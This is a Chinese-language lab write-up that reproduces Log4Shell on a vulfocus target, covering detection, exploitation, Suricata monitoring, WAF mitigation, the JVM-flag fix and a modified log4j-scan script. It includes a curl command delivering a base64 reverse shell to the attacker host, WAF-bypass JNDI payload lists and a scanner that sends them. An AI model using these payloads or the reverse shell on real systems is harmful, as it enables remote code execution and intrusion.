### log4j 漏洞复现环境搭建+利用复现+缺陷代码逆向分析、定位漏洞代码片段+缓解+修复

---

#### 一、log4j 漏洞复现环境搭建

##### 1.首先进入到vulfocus的首页，之后打开左侧菜单中的漏洞管理，在搜索栏搜索关键字：`log4j`。



##### 2.下载环境镜像之后点击左侧菜单的”首页“，在下方可以看到已经下载到本地的环境镜像，之后点击启动，即可一键启动漏洞复现环境。



点击之后可以看到弹出的提示框，显示我们已经启动的漏洞复现环境的访问地址等镜像信息。



##### 3.访问靶场Web页面



点击蓝色链接跳转如下：



---

#### 二、检测漏洞存在性

1.使用`docker ps`查看容器信息，看到其容器名称为`inspiring_carver`



2.进入容器

```bash
docker exec -it inspiring_carver bash
```



3.查看到容器目录下有demo.jar文件，拉取到容器的宿主机

```bash
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp inspiring_carver:/demo/demo.jar ./
```



4.使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.5.1)反编译demo.jar



源码中有 Log4j2RceApplic 的类，其中正是违反了”KISS“原则，验证了该漏洞的存在。

---

#### 三、验证漏洞可利用性

> 使用PoC手动检测
>
> **PoC** 是“概念验证”（Proof of Concept）的缩写，指的是用来**证明某个漏洞或攻击方法确实存在且可被利用**的工具或脚本。
>
> 在网络安全中，PoC 通常是指一个能够触发漏洞的测试脚本或方法，目的是：
>  ✅ 验证漏洞是否存在
>  ✅ 展示漏洞的可利用性
>  ✅ 帮助开发者或安全研究人员理解漏洞的成因和影响
>
> 🏹 **PoC 在 Log4j 漏洞中的应用**
>
> 在 Log4j 漏洞（Log4Shell）中，PoC 通常是一个用来触发 JNDI 注入的 HTTP 请求或 Java 代码。
>  PoC 的作用是：
>
> 1. 通过发送特定的 Payload，触发 Log4j 的 JNDI 注入。
> 2. 响应中显示相关的回显信息或返回特定状态码。
> 3. 根据返回的结果，判断漏洞是否存在。

1.[DnsLog](http://dnslog.cn/)下获取专属随机子域名：`nxz5uf.dnslog.cn`，我们可以使用其进行构建漏洞检测payload：`payload="${jndi:ldap://nxz5uf.dnslog.cn/exp}"`



2.使用kali-attacker进行漏洞存在性验证，直接利用课程中给出的示例形式`curl -X POST http://192.168.109.4:23480/hello -d 'payload="${jndi:ldap:nxz5uf.dnslog.cn/exp}"'`，会发现目标网址不支持POST方法的请求：



3.在此执行命令 `curl -X OPTIONS 目标地址 -i` 查看目标网址支持的HTTP请求方法：



**那么如果 `POST` 不被支持，如何绕过？**

在此我们使用了 `GET` 请求+参数，这个命令使用 `curl` 发送了一个 **GET 请求**，并通过 **URL 参数** 的方式传递了 `payload` 数据。

```bash
curl -G http://192.168.109.4:23480/hello --data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'
```

> **各部分解析**
>
> | 内容                                                         | **作用**                                                     |
> | ------------------------------------------------------------ | ------------------------------------------------------------ |
> | `curl`                                                       | 使用 `curl` 命令行工具发送 HTTP 请求                         |
>| `-G`                                                         | 让 `curl` 以 **GET 方法** 发送请求（默认 `curl` 发送的是 `POST`，加上 `-G` 变成 `GET`） |
> | `http://192.168.109.4:23480/hello`                           | 目标 URL，即 Web 服务器的 `/hello` 接口                      |
>| `--data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'` | **URL 编码参数**，把 `payload=${jndi:ldap://test.dnslog.cn/exp}` 以 URL 查询参数（Query Parameter）的形式添加到请求中 |
> 
>------
> 
>**实际发送的请求**
> 
> `curl -G` 的作用是 **把 `--data-urlencode` 里的参数转换成 URL 查询参数**，最终 `curl` 发送的 HTTP 请求会变成：
> 
> ```bash
> GET /hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D HTTP/1.1
> Host: 192.168.109.4:23480
>User-Agent: curl/7.XX.X
> Accept: */*
>```
> 
>这里：
> 
>- ```
>   payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D
>   ```
> 
>   - `%24` → `$`
>   - `%7B` → `{`
>   - `%7D` → `}`
>  - `%3A` → `:`
>   - `%2F` → `/`
>
> 所以 `payload` 实际传递的内容仍然是：
> 
> ```
>payload=${jndi:ldap://test.dnslog.cn/exp}
> ```
> 
> ------
> 
> **为什么这样做？**
>
> 1. **绕过 POST 限制**
>   - 目标服务器 **不支持 `POST`**（返回 `405 Method Not Allowed`）。
>    - 但 **支持 `GET`**，所以我们用 `GET` 请求携带 `payload`。
> 2. **URL 编码防止干扰**
>    - `--data-urlencode` 让 `curl` 自动对特殊字符（如 `{ } : /`）进行 URL 编码，防止被服务器拦截或误解。
>3. **适用于 GET 方式传参的 Web 服务器**
>    - 一些服务器会直接把 `GET` 请求的 **查询参数** 作为日志处理，从而触发 Log4j 漏洞。
>

4.在此之前我们查看DnsLog网站的Record为空：



5.使用绕过POST的curl攻击请求：

```bash
curl -G http://192.168.109.4:13806/hello --data-urlencode 'payload=${jndi:ldap://nxz5uf.dnslog.cn/exp}'
```

6.可以从被攻击机的udp 53端口中看到DNS解析请求：



7.与此同时在DnsLog进行刷新纪录，可以看到成功接收到解析记录：



---

#### 四、漏洞利用

1.下载并解压[JNDIExploit工具](https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)



2.攻击机监听指定端口（在此选择7777端口），之后运行JNDEExploit工具监听在attackerIP上。

```bash
# 攻击机监听7777端口
nc -l -p 7777
# 运行JNDEExploit工具
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.109.5
```



3.使用攻击机发送漏洞利用请求，可以看到反弹shell成功的结果

```bash
 curl -G http://192.168.109.4:22220//hello --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
```



4.在shell下查看权限，之后在/tmp下找到flag，漏洞利用成功！

```
flag-{bmha526a63d-5684-471c-afc2-18fed1e6ec0a}
```

> ps：在vulfocus下载的靶场环境中的flag一般都存放在/tmp下


5.在管理界面提交该flag，通过



---

#### 五、漏洞利用流量监测

1.启动靶机镜像（我们之前已经启动过了，这一步可以不进行操作）

```bash
docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest
```

2.启动 suricata 检测容器，此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP

```bash
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```



3.更新 suricata 规则，更新完成测试完规则之后会自动重启服务

```bash
docker exec -it suricata suricata-update -f
```



4.再次重复漏洞利用过程，同时实时显示 `suricata` 流量监测日志。

```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```



---

#### 六、漏洞缓解

1.安装雷池WAF（执行以下命令）

> 需提前装好docker环境

```bash
bash -c "$(curl -fsSLk https://waf-ce.chaitin.cn/release/latest/setup.sh)"
```



安装完成后如下图所示：



2.访问控制台，输入用户名和密码后进入WAF网页主界面



3.之后进入 `防护应用 - 应用管理` 页面, 点击右上角的 `添加应用` 按钮进行配置



4.配置8081为监听端口（与正在运行的端口不重复即可），配置上游服务器为http://172.17.0.2:8080 （即：http://{靶场在docker容器内的地址}:{被映射的内部端口}）

ps：靶场在docker容器内的地址可以执行命令`docker inspect {容器名称} | grep '"IPAddress"'`进行查看：



具体配置如下：



> 一些关键字段的说明如下:
>
> - 域名: 通过雷池访问该应用时使用的域名 (支持使用 `*` 做为通配符)，注意修改 DNS 解析到雷池 IP
> - 端口: 雷池监听的端口 (如需配置 HTTPS 服务, 请勾选 SSL 选项并配置对应的 SSL 证书)
> - 上游服务器: 被保护的 Web 服务的实际地址

5.进入 `防护配置 - 自定义规则` 页面, 点击右上角的 `添加规则` 按钮进行配置



6.我们的目的是对log4j漏洞进行缓解，已知Log4j 攻击最常见的触发方式：通过 URL 传入 `${jndi:ldap://...}`，那么我们可以拦截 URL 中含有 `jndi:ladp` 字符串的请求（配置黑名单规则）。

对应的配置规则如下：



7.之后将防火墙自带的一些防御规则（`防护配置-加强规则`）和防护模块（`防护配置-防护模块`）进行禁用，减少不确定变量的产生，确保实验正确进行。

8.此时waf的配置已经完成，但是waf是对8081端口进行监听，之后将流量传至上游服务器http://172.17.0.2:8080，但是我们真实暴露出的靶场地址192.168.109.4:22220还是可以访问的。我们的目的是让访客只能通过8081端口进行靶场的访问（通过我们的waf），所以我们需要对22220端口配置相应的规则，使得其只能被内部网络访问，而不能被外部网络访问。运行以下命令：

```
sudo iptables -A INPUT -p tcp --dport 22220 -s 127.0.0.1 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22220 -j DROP
```



8.查看`DOCKER` 链的详细规则信息（DNAT规则会在重启对应容器时自动配置）

执行`sudo iptables -t nat -L DOCKER -v -n --line-numbers` 命令，在 `nat` 表中列出 `DOCKER` 链的详细规则信息

| 命令部分         | 解释                                                         |
| ---------------- | ------------------------------------------------------------ |
| `sudo`           | 使用超级用户权限执行命令。iptables 的配置和修改需要 root 权限。 |
| `iptables`       | 主命令，管理 Linux 的防火墙规则。                            |
| `-t nat`         | 指定要操作的 **nat（Network Address Translation）表**。Docker 主要通过 NAT 表进行端口映射。 |
| `-L`             | 列出（List）当前表中所有的规则。                             |
| `DOCKER`         | 目标链（Chain）。Docker 会在 `nat` 表中自动创建一个名为 `DOCKER` 的链，用于管理 Docker 容器的端口映射。 |
| `-v`             | 显示详细（verbose）信息，包括命中次数、传输的字节数等。      |
| `-n`             | 不反向解析 IP 地址，直接显示数值格式的 IP 地址（避免 DNS 解析带来的延迟）。 |
| `--line-numbers` | 显示规则的行号，便于使用 `iptables -D` 命令按行号删除规则。  |


其中第8条规则，它是在 `DOCKER` 链中的 **DNAT（目标地址转换）** 规则，表示 Docker 将对目标端口 `22220` 的访问重定向到 Docker 容器内的 `8080` 端口。

> **DNAT（目的网络地址转换）** 是一种网络地址转换（NAT）技术，主要用于在**数据包进入网络时**，将其目标地址（目的 IP 地址或端口号）重写为其他地址。
>
> 在 Linux 系统中，DNAT 规则是通过 `iptables` 的 `nat` 表中的 `PREROUTING` 链进行配置的。



> PREROUTING 是机器接受到的每个 ip 包最先被处理的地方，目标端口的转换，目标地址的转换都在这个链做处理。从这往后就开始有 2 条岔路。 如果 ip 包的目标地址是本机，那么它会进入到 INPUT 链，根据 INPUT 链的规则，来决定值丢弃还是处理；如果 ip 包的目标地址不是本机， 那么就会进入 FORWARD 链。根据 FORWARD 链的规则进行处理，如果 ip 包没有被接受了，那么由本机进行转发（这里需要开启机器的 forward 才能转发，`echo 1 > /proc/sys/net/ipv4/ip_forward`）。

那么外部在通过192.168.109.4访问22220端口的时候，Docker 的 DNAT 规则会在 `PREROUTING` 阶段首先匹配并触发，连接被直接重定向到容器的 `172.17.0.2:8080`，就会导致iptable我们手动设置的屏蔽外部网络访问22220端口的INPUT链规则不起作用。因此我们需要将此条规则进行删除：

```bash
sudo iptables -t nat -D DOCKER 8  #8为需要删除的DNAT规则对应的序号
```

9.至此，缓解基本完成。

10.对漏洞缓解效果进行验证：

在attacker上对目标地址使用常规payload`${jndi:ldap://...}`进行攻击：



尝试大小写绕过，也被拦截：



11.对缓解之后的漏洞进行绕过，有以下常规的绕过方式：

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

我们在此使用

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
```

绕过成功：



---

#### 七、漏洞修复

1.原理分析：

Log4j 提供了一个名为 **JNDI（Java Naming and Directory Interface）** 的功能，允许从远程服务器中动态加载类或资源。
 在日志消息或参数中，Log4j 支持解析形如 `${}` 的表达式，并允许通过 JNDI 加载外部数据。

攻击者在用户输入（如 URL、Header、Body、参数等）中注入恶意的 JNDI 语句，例如：

```java
${jndi:ldap://attacker.com/exploit}
```

Log4j 在处理日志时会对 `${}` 进行解析，当 Log4j 解析类似 `${jndi:ldap://...}` 的字符串时，JNDI 通过 `InitialContext.lookup()` 加载对象：

```java
InitialContext ctx = new InitialContext();
Object obj = ctx.lookup("ldap://attacker.com/exploit");
```

➡️ 如果远程服务器返回了一个恶意的 Java 类，Java 将会直接加载和执行它，导致 RCE。

2.所以我们选择修复方式：通过**增加参数配置**

 ✔️ 禁用 `JNDI` 查找功能
 ✔️ 完全禁用 JNDI 加载
 ✔️ 禁用 `RMI` 和 `LDAP` 加载远程类
 ✔️ 禁用 DNS 缓存，防止基于 DNS 的利用
 ✔️ 在配置文件中明确禁用 JNDI 相关组件

在2.10以上版本的log4j中，提供了配置属性，这些配置可以配置在系统环境变量、JVM启动参数、log4j配置文件中，任意一个地方配置均可生效。

- 停止并删除原容器：

  ```bash
  docker stop romantic_ardinghelli
  docker rm romantic_ardinghelli
  ```

- 添加参数配置启动容器

  ```bash
  docker run -d --name log4shell \
  -p 22220:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true \
  -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
  -Dsun.net.inetaddr.ttl=0 \
  -Dsun.net.inetaddr.negative.ttl=0 \
  -jar /demo/demo.jar
  ```

- 与之前搭建好的waf搭配使用

- 进行漏洞利用

  常规利用失败：

  

  大小写绕过失败：

  

  base64绕过失败：

  

  使用其他协议绕过均失败：

  

  验证了漏洞修复的效果。

---

#### 八、自动化检测漏洞可利用性

1.此部分基于原有的[log4j-scan仓库](https://github.com/fullhunt/log4j-scan/tree/master)进行修改和完善。

2.首先运行代码之后会发现出现运行结果`[•] Targets do not seem to be vulnerable.`，我们已知所运行的靶场环境是存在log4j漏洞的，所以我们首先进入原代码进行分析。



3.经过分析得知：由于靶机上的缺陷代码中是对客户端发送的请求中包含的payload字段进行记录，而当前的`log4j-scan.py`扫描程序中只是内置了有限的几个检测参数，恰恰没有`payload`这个参数，那么我们就需要在检测参数列表中加上`payload`这个参数。



4.再次运行发现OOB（Out-Of-Band）回显接收服务器出现连接失败的现象，探索发现interact.sh这个域名已经不再运行服务了，通过查看github仓库的issue以及google搜索`interact OOB`关键词，得知修复方法：将interact.sh替换为oast.fun（新的interactsh 服务器）。并做了以下两点改进：

- 添加了参数 `--disable-tls-to-register-dns`

  - 加了这个参数后，向 Interactsh 注册时将使用 **HTTP** 而不是默认的 **HTTPS** 协议；
  - 原因是部分环境（如 Docker、虚拟机或内网）可能无法验证 TLS 证书，导致 HTTPS 请求失败。

- 在拉取日志记录时增加了空值判断

  - Interactsh 返回的回显日志可能没有任何数据（`data_list` 为 `None`）；
  - 为防止报错（如对 `None` 进行遍历），加入了 `if data_list is None: data_list = []`；
  - 这样能确保程序即使没有回显也能正常执行，不会崩溃。

  ```python
  #!/usr/bin/env python3
  # coding=utf-8
  # ******************************************************************
  # log4j-scan: A generic scanner for Apache log4j RCE CVE-2021-44228
  # Author:
  # Mazin Ahmed <Mazin at FullHunt.io>
  # Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
  # Secure your Attack Surface with FullHunt.io.
  # ******************************************************************
  
  import argparse
  import random
  import requests
  import time
  import sys
  from urllib import parse as urlparse
  import base64
  import json
  from uuid import uuid4
  from base64 import b64encode
  from Crypto.Cipher import AES, PKCS1_OAEP
  from Crypto.PublicKey import RSA
  from Crypto.Hash import SHA256
  from termcolor import cprint
  
  
  # Disable SSL warnings
  try:
      import requests.packages.urllib3
      requests.packages.urllib3.disable_warnings()
  except Exception:
      pass
  
  
  cprint('[•] CVE-2021-44228 - Apache Log4j RCE Scanner', "green")
  cprint('[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.', "yellow")
  cprint('[•] Secure your External Attack Surface with FullHunt.io.', "yellow")
  
  if len(sys.argv) <= 1:
      print('\n%s -h for help.' % (sys.argv[0]))
      exit(0)
  
  
  default_headers = {
      'User-Agent': 'log4j-scan (https://github.com/mazen160/log4j-scan)',
      # 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36',
      'Accept': '*/*'  # not being tested to allow passing through checks on Accept header in older web-servers
  }
  
  post_data_parameters = ["username", "user", "uname",
                          "name", "email", "email_address", "password", "payload"]
  timeout = 4
  
  waf_bypass_payloads = ["${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}}",
                         "${${::-j}ndi:rmi://{{callback_host}}/{{random}}}",
                         "${jndi:rmi://{{callback_host}}/{{random}}}",
                         "${jndi:rmi://{{callback_host}}}/",
                         "${${lower:jndi}:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}}",
                         "${jndi:dns://{{callback_host}}/{{random}}}",
                         "${jnd${123%25ff:-${123%25ff:-i:}}ldap://{{callback_host}}/{{random}}}",
                         "${jndi:dns://{{callback_host}}}",
                         "${j${k8s:k5:-ND}i:ldap://{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i:ldap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}ldap://{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}ldap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}ldap://{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}ldap{sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}${lower:L}dap${sd:k5:-:}//{{callback_host}}/{{random}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}a${::-p}${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${jndi:${lower:l}${lower:d}a${lower:p}://{{callback_host}}}",
                         "${jnd${upper:i}:ldap://{{callback_host}}/{{random}}}",
                         "${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://{{callback_host}}/{{random}}}"
                         ]
  
  cve_2021_45046 = [
      # Source: https://twitter.com/marcioalm/status/1471740771581652995,
      "${jndi:ldap://127.0.0.1#{{callback_host}}:1389/{{random}}}",
      "${jndi:ldap://127.0.0.1#{{callback_host}}/{{random}}}",
      "${jndi:ldap://127.1.1.1#{{callback_host}}/{{random}}}"
  ]
  
  parser = argparse.ArgumentParser()
  parser.add_argument("-u", "--url",
                      dest="url",
                      help="Check a single URL.",
                      action='store')
  parser.add_argument("-p", "--proxy",
                      dest="proxy",
                      help="send requests through proxy",
                      action='store')
  parser.add_argument("-l", "--list",
                      dest="usedlist",
                      help="Check a list of URLs.",
                      action='store')
  parser.add_argument("--request-type",
                      dest="request_type",
                      help="Request Type: (get, post) - [Default: get].",
                      default="get",
                      action='store')
  parser.add_argument("--headers-file",
                      dest="headers_file",
                      help="Headers fuzzing list - [default: headers.txt].",
                      default="headers.txt",
                      action='store')
  parser.add_argument("--run-all-tests",
                      dest="run_all_tests",
                      help="Run all available tests on each URL.",
                      action='store_true')
  parser.add_argument("--exclude-user-agent-fuzzing",
                      dest="exclude_user_agent_fuzzing",
                      help="Exclude User-Agent header from fuzzing - useful to bypass weak checks on User-Agents.",
                      action='store_true')
  parser.add_argument("--wait-time",
                      dest="wait_time",
                      help="Wait time after all URLs are processed (in seconds) - [Default: 5].",
                      default=5,
                      type=int,
                      action='store')
  parser.add_argument("--waf-bypass",
                      dest="waf_bypass_payloads",
                      help="Extend scans with WAF bypass payloads.",
                      action='store_true')
  parser.add_argument("--custom-waf-bypass-payload",
                      dest="custom_waf_bypass_payload",
                      help="Test with custom WAF bypass payload.")
  parser.add_argument("--test-CVE-2021-45046",
                      dest="cve_2021_45046",
                      help="Test using payloads for CVE-2021-45046 (detection payloads).",
                      action='store_true')
  parser.add_argument("--dns-callback-provider",
                      dest="dns_callback_provider",
                      help="DNS Callback provider (Options: dnslog.cn, oast.fun) - [Default: oast.fun].",
                      default="oast.fun",
                      action='store')
  parser.add_argument("--custom-dns-callback-host",
                      dest="custom_dns_callback_host",
                      help="Custom DNS Callback Host.",
                      action='store')
  parser.add_argument("--disable-tls-to-register-dns",
                      dest="disable_tls_to_register_dns",
                      help="Disable TLS (https) when registering the DNS host.",
                      action='store_true')
  parser.add_argument("--disable-http-redirects",
                      dest="disable_redirects",
                      help="Disable HTTP redirects. Note: HTTP redirects are useful as it allows the payloads to have a higher chance of reaching vulnerable systems.",
                      action='store_true')
  
  args = parser.parse_args()
  
  
  proxies = {}
  if args.proxy:
      proxies = {"http": args.proxy, "https": args.proxy}
  
  
  if args.custom_waf_bypass_payload:
      waf_bypass_payloads.append(args.custom_waf_bypass_payload)
  
  
  def get_fuzzing_headers(payload):
      fuzzing_headers = {}
      fuzzing_headers.update(default_headers)
      with open(args.headers_file, "r") as f:
          for i in f.readlines():
              i = i.strip()
              if i == "" or i.startswith("#"):
                  continue
              fuzzing_headers.update({i: payload})
      if args.exclude_user_agent_fuzzing:
          fuzzing_headers["User-Agent"] = default_headers["User-Agent"]
  
      if "Referer" in fuzzing_headers:
          fuzzing_headers["Referer"] = f'https://{fuzzing_headers["Referer"]}'
      return fuzzing_headers
  
  
  def get_fuzzing_post_data(payload):
      fuzzing_post_data = {}
      for i in post_data_parameters:
          fuzzing_post_data.update({i: payload})
      return fuzzing_post_data
  
  
  def generate_waf_bypass_payloads(callback_host, random_string):
      payloads = []
      for i in waf_bypass_payloads:
          new_payload = i.replace("{{callback_host}}", callback_host)
          new_payload = new_payload.replace("{{random}}", random_string)
          payloads.append(new_payload)
      return payloads
  
  
  def get_cve_2021_45046_payloads(callback_host, random_string):
      payloads = []
      for i in cve_2021_45046:
          new_payload = i.replace("{{callback_host}}", callback_host)
          new_payload = new_payload.replace("{{random}}", random_string)
          payloads.append(new_payload)
      return payloads
  
  
  class Dnslog(object):
      def __init__(self):
          self.s = requests.session()
          req = self.s.get("http://www.dnslog.cn/getdomain.php",
                           proxies=proxies,
                           timeout=30)
          self.domain = req.text
  
      def pull_logs(self):
          req = self.s.get("http://www.dnslog.cn/getrecords.php",
                           proxies=proxies,
                           timeout=30)
          return req.json()
  
  
  class Interactsh:
      # Source: https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/modules/interactsh/__init__.py
      def __init__(self, token="", server=""):
          rsa = RSA.generate(2048)
          self.public_key = rsa.publickey().exportKey()
          self.private_key = rsa.exportKey()
          self.token = token
          self.server = server.lstrip('.') or 'oast.fun'
          self.headers = {
              "Content-Type": "application/json",
          }
          if self.token:
              self.headers['Authorization'] = self.token
          self.secret = str(uuid4())
          self.encoded = b64encode(self.public_key).decode("utf8")
          guid = uuid4().hex.ljust(33, 'a')
          guid = ''.join(i if i.isdigit() else chr(
              ord(i) + random.randint(0, 20)) for i in guid)
          self.domain = f'{guid}.{self.server}'
          self.correlation_id = self.domain[:20]
  
          self.session = requests.session()
          self.session.headers = self.headers
          self.session.verify = False
          self.session.proxies = proxies
          self.register()
  
      def register(self):
          data = {
              "public-key": self.encoded,
              "secret-key": self.secret,
              "correlation-id": self.correlation_id
          }
          protocol = 'http' if args.disable_tls_to_register_dns else 'https'
          res = self.session.post(
              f"{protocol}://{self.server}/register", headers=self.headers, json=data, timeout=30)
          if 'success' not in res.text:
              raise Exception("Can not initiate oast.fun DNS callback client")
  
      def pull_logs(self):
          result = []
          protocol = 'http' if args.disable_tls_to_register_dns else 'https'
          url = f"{protocol}://{self.server}/poll?id={self.correlation_id}&secret={self.secret}"
          res = self.session.get(url, headers=self.headers, timeout=30).json()
          aes_key, data_list = res['aes_key'], res['data']
          if data_list is None:
              data_list = []
          for i in data_list:
              decrypt_data = self.__decrypt_data(aes_key, i)
              result.append(self.__parse_log(decrypt_data))
          return result
  
      def __decrypt_data(self, aes_key, data):
          private_key = RSA.importKey(self.private_key)
          cipher = PKCS1_OAEP.new(private_key, hashAlgo=SHA256)
          aes_plain_key = cipher.decrypt(base64.b64decode(aes_key))
          decode = base64.b64decode(data)
          bs = AES.block_size
          iv = decode[:bs]
          cryptor = AES.new(key=aes_plain_key, mode=AES.MODE_CFB,
                            IV=iv, segment_size=128)
          plain_text = cryptor.decrypt(decode)
          return json.loads(plain_text[16:])
  
      def __parse_log(self, log_entry):
          new_log_entry = {"timestamp": log_entry["timestamp"],
                           "host": f'{log_entry["full-id"]}.{self.domain}',
                           "remote_address": log_entry["remote-address"]
                           }
          return new_log_entry
  
  
  def parse_url(url):
      """
      Parses the URL.
      """
  
      # Url: https://example.com/login.jsp
      url = url.replace('#', '%23')
      url = url.replace(' ', '%20')
  
      if ('://' not in url):
          url = str("http://") + str(url)
      scheme = urlparse.urlparse(url).scheme
  
      # FilePath: /login.jsp
      file_path = urlparse.urlparse(url).path
      if (file_path == ''):
          file_path = '/'
  
      return ({"scheme": scheme,
              "site": f"{scheme}://{urlparse.urlparse(url).netloc}",
               "host":  urlparse.urlparse(url).netloc.split(":")[0],
               "file_path": file_path})
  
  
  def scan_url(url, callback_host):
      parsed_url = parse_url(url)
      random_string = ''.join(random.choice(
          '0123456789abcdefghijklmnopqrstuvwxyz') for i in range(7))
      payload = '${jndi:ldap://%s.%s/%s}' % (
          parsed_url["host"], callback_host, random_string)
      payloads = [payload]
      if args.waf_bypass_payloads:
          payloads.extend(generate_waf_bypass_payloads(
              f'{parsed_url["host"]}.{callback_host}', random_string))
  
      if args.cve_2021_45046:
          cprint(
              f"[•] Scanning for CVE-2021-45046 (Log4j v2.15.0 Patch Bypass - RCE)", "yellow")
          payloads = get_cve_2021_45046_payloads(
              f'{parsed_url["host"]}.{callback_host}', random_string)
  
      for payload in payloads:
          cprint(f"[•] URL: {url} | PAYLOAD: {payload}", "cyan")
  
          if args.request_type.upper() == "GET" or args.run_all_tests:
              try:
                  requests.request(url=url,
                                   method="GET",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
          if args.request_type.upper() == "POST" or args.run_all_tests:
              try:
                  # Post body
                  requests.request(url=url,
                                   method="POST",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   data=get_fuzzing_post_data(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
              try:
                  # JSON body
                  requests.request(url=url,
                                   method="POST",
                                   params={"v": payload},
                                   headers=get_fuzzing_headers(payload),
                                   json=get_fuzzing_post_data(payload),
                                   verify=False,
                                   timeout=timeout,
                                   allow_redirects=(not args.disable_redirects),
                                   proxies=proxies)
              except Exception as e:
                  cprint(f"EXCEPTION: {e}")
  
  
  def main():
      urls = []
      if args.url:
          urls.append(args.url)
      if args.usedlist:
          with open(args.usedlist, "r") as f:
              for i in f.readlines():
                  i = i.strip()
                  if i == "" or i.startswith("#"):
                      continue
                  urls.append(i)
  
      dns_callback_host = ""
      if args.custom_dns_callback_host:
          cprint(
              f"[•] Using custom DNS Callback host [{args.custom_dns_callback_host}]. No verification will be done after sending fuzz requests.")
          dns_callback_host = args.custom_dns_callback_host
      else:
          cprint(
              f"[•] Initiating DNS callback server ({args.dns_callback_provider}).")
          if args.dns_callback_provider == "oast.fun":
              dns_callback = Interactsh()
          elif args.dns_callback_provider == "dnslog.cn":
              dns_callback = Dnslog()
          else:
              raise ValueError("Invalid DNS Callback provider")
          dns_callback_host = dns_callback.domain
  
      cprint("[%] Checking for Log4j RCE CVE-2021-44228.", "magenta")
      for url in urls:
          cprint(f"[•] URL: {url}", "magenta")
          scan_url(url, dns_callback_host)
  
      if args.custom_dns_callback_host:
          cprint("[•] Payloads sent to all URLs. Custom DNS Callback host is provided, please check your logs to verify the existence of the vulnerability. Exiting.", "cyan")
          return
  
      cprint("[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.", "cyan")
      cprint("[•] Waiting...", "cyan")
      time.sleep(int(args.wait_time))
      records = dns_callback.pull_logs()
      if len(records) == 0:
          cprint("[•] Targets do not seem to be vulnerable.", "green")
      else:
          cprint("[!!!] Targets Affected", "yellow")
          for i in records:
              cprint(json.dumps(i), "yellow")
  
  
  if __name__ == "__main__":
      try:
          main()
      except KeyboardInterrupt:
          print("\nKeyboardInterrupt Detected.")
          print("Exiting...")
          exit(0)
  ```

5.再次运行log4j-scan代码进行漏洞可利用性扫描：



成功扫描出目标环境存在log4j漏洞可利用。

---

#### 遇到的问题及解决方案

1.GitHub下载缓慢或一直处于等待状态

速度过慢：



